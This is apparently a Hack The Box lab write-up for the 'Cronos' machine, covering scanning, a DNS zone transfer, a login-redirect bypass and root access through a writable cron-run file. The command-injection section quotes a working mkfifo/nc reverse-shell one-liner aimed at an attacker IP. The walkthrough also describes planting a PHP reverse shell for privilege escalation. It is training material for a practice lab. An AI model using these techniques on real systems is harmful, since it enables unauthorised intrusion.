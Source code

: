 ```yaml
---
"title": "Hack The Box - Cronos"
"date": 2020-01-16
"tags": ["linux", "medium", "domain", "cron", "redirection"]
"keywords": ["linux", "medium", "domain", "cron", "redirection"]
"categories": "HackTheBox OSCP-Like"
"author": "Ghostbyt3"
"description": "We are going to pwn Cronos from Hack The Box."
"featured_image": "/img/htb-cronos/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "HackTheBox OSCP-Like - Writeup"
---
```



![Untitled](/img/htb-cronos/1.png)

We are going to pwn Cronos from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/11](https://www.hackthebox.eu/home/machines/profile/11)


Like always begin with our Nmap Scan.

## Nmap Scan Results

```
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.2 - 4.9 (92%), Linux 4.2 (92%), Linux 4.4 (92%), Linux 4.8 (92%), Linux 4.9 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP Enumeration

![Untitled](/img/htb-cronos/2.png)
Its an apache2 default webpage.

I edited my ``/etc/hosts`` file to add the machine’s name ``cronos.htb`` and then revisit the page to check it shows any different page.
![Untitled](/img/htb-cronos/3.png)

The server is running ``laravel framework`` every page leads to ``laravel`` releated things.
So I started checking other ports.

## Port 53 Enumeration

Which is ``domain`` may be we can do a zone transfer for that domain. For that we can use a tool named ``dig``.

> dig - DNS lookup utility

By using this we can find other domains available for the webpage. 
![Untitled](/img/htb-cronos/4.1.png)

> AXFR, is a type of DNS transaction. It is one of the many mechanisms available for administrators to replicate DNS databases across a set of DNS servers.

Got some new domains, So I added those new entries to ``/etc/hosts``

Started from ``admin.cronos.htb``
![Untitled](/img/htb-cronos/4.png)
Its an Login page!!

Lets bruteforce the directories using ``Gobuster`` to check if anything useful for us.

## Gobuster Results
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://admin.cronos.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/01/16 20:34:34 Starting gobuster
===============================================================
 /index.php (Status: 200)
 /welcome.php (Status: 302)
 /logout.php (Status: 302)
 /config.php (Status: 200)
 /session.php (Status: 302)
 /server-status (Status: 403)
```

## Getting Initial Shell

When I try to enter ``/welcome.php`` it redirects to ``/login.php`` , So we can stop the redirection and see what that page leads us.[br/](br/)
We can use ``intruder`` from burp to do this process.[br/](br/)
![Untitled](/img/htb-cronos/5.png)[br/](br/)
All we need to do is change ``302 Found`` to ``200 Ok``.

For that open ``Proxy -> Options -> Match and Replace``[br/](br/)
![Untitled](/img/htb-cronos/6.png)

``/welcome.php`` it leads to a page where it has a tool to ping.[br/](br/)
![Untitled](/img/htb-cronos/7.png)

So I tried some normal command injections and  ``&&`` helps to exec another commands.

`` 10.10.14.8 && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1234 >/tmp/f ``

![Untitled](/img/htb-cronos/8.png)[br/](br/)
We got the shell

While checking for any useful files in ``/var/www`` found ``/admin.php/config.php``  and its give me ``mysql`` credentials
![Untitled](/img/htb-cronos/9.png)

I logged in with them to check any user credentials available and found a hash for admin but it takes some time to crack the hash.

![Untitled](/img/htb-cronos/10.png)

## Privilege Escalation

I uploaded my Enumeration Script to the box and found there is a cronjob running so I uploaded ``pspy`` to see whats actually going on.

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

![Untitled](/img/htb-cronos/11.png)

We have write permission on the on the folder ``/var/www/laravel/``and its running as php so we can create a file with the same name ``artisan`` and upload our php reverse shell.

I created ``artisan`` file in my machine with php reverse shell and uploaded to the box.
![Untitled](/img/htb-cronos/12.png)

Started my Listener and waited for the cronjob to execute my reverse shell
![Untitled](/img/htb-cronos/13.png)

Got Root!!